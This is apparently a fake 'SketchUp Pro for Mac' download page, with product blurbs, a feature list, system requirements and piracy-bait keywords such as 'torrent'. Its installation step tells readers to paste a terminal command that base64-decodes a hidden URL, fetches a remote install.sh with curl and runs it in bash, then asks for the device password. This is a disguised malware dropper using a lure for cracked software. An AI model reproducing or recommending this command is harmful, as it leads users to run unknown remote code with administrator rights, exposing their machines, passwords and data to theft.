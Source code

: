 # SketchUp Pro Mac Download

![SketchUp Mac Icon](https://softwareasli.com/wp-content/uploads/2019/07/sketchup-pro.jpg)  

---

# ⬇️ Download SketchUp Pro for Mac

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ✨ What is SketchUp Pro for Mac?

**SketchUp Pro for Mac** is a professional-grade 3D modeling software used by architects, engineers, interior designers, and creative professionals to bring their ideas to life. Offering a powerful yet intuitive interface, SketchUp makes 3D design accessible without compromising on capabilities. Whether you're drafting architectural models, planning interior layouts, or visualizing complex structures, SketchUp Pro gives you the tools to model accurately and quickly.

This macOS-compatible version includes all features of the Windows version, including LayOut (for 2D documentation), Style Builder (for custom sketch effects), and advanced interoperability with file formats like DWG, DXF, OBJ, and 3DS. With native support for Apple Silicon (M1, M2, and newer), SketchUp runs smoothly and efficiently on modern MacBooks and iMacs.

SketchUp’s strength lies in its simplicity and speed — you can draw edges and faces in 3D with precision, apply textures and materials, and even add lighting or shadow effects for presentations. The app also connects to the 3D Warehouse, a massive online library of pre-made models that you can import into your scenes instantly. With powerful plugins, rendering engines, and real-time previews, SketchUp is perfect for everything from concept sketches to production-ready designs.

This version is ideal for use on macOS Monterey, Ventura, and the latest Apple devices. Whether you’re a beginner or a pro, SketchUp Pro for Mac provides a streamlined yet powerful solution for 3D modeling in any creative or technical workflow.

---

## 💡 Features

- 🧱 **Intuitive 3D Modeling** – Quickly draw and manipulate 3D shapes  
- 🏠 **Architecture & Interior Design Tools** – Ideal for construction and layout planning  
- 🖥 **Mac Native Support** – Optimized for macOS, including M1 & M2 chips  
- 📄 **LayOut Integration** – Create stunning 2D documents and presentations  
- 🔌 **Extensions & Plugins** – Enhance your workflow with custom tools  
- ☁️ **3D Warehouse Access** – Import free objects, furniture, and models  
- 💼 **Pro File Support** – Export to CAD and 3D formats  
- 🔄 **Version Compatibility** – Supports SketchUp 2017–2022 and more  

---

![SketchUp Mac UI](https://global.discourse-cdn.com/sketchup/original/3X/1/f/1fbc5cd8499b6d506d5e1024584d330cc9b24655.gif)

---

## 💻 System Requirements

- **OS:** macOS 10.14 (Mojave) or later  
- **CPU:** Intel or Apple Silicon (M1/M2/M3)  
- **RAM:** 8GB minimum  
- **GPU:** Metal-capable graphics card  
- **Disk Space:** 1GB free  

---

## 🔑 Keywords

`sketchup free download for mac`, `sketchup osx`, `sketchup pro mac`, `sketchup for macbook pro`,  
`sketchup pro download mac`, `sketchup 2017 download mac`, `sketch up pro for mac`,  
`sketchup on macbook pro`, `sketchup pro 2022 mac`, `sketchup pro 2021 download mac`,  
`sketchup pro download for mac`, `download sketchup 2019 for mac`, `download sketchup 2021 mac`,  
`download sketchup pro 2020 for mac`, `macbook pro for sketchup`, `macbook pro m1 sketchup`,  
`macos monterey sketchup`, `sketchup 2020 for mac free download`, `sketchup 2020 mac full`,  
`sketchup 2020 mac free`, `sketchup 2021 for mac`, `sketchup 2022 m1`, `sketchup for m1`,  
`sketchup free download for macbook pro`, `sketchup pro 2020 mac download`,  
`sketchup pro 2021 mac free download`, `sketchup pro for mac free`,  
`sketchup pro 2022 mac download`, `sketchup pro 2022 for mac`, `sketch up mac torrent`,  
`sketchup osx torrent`
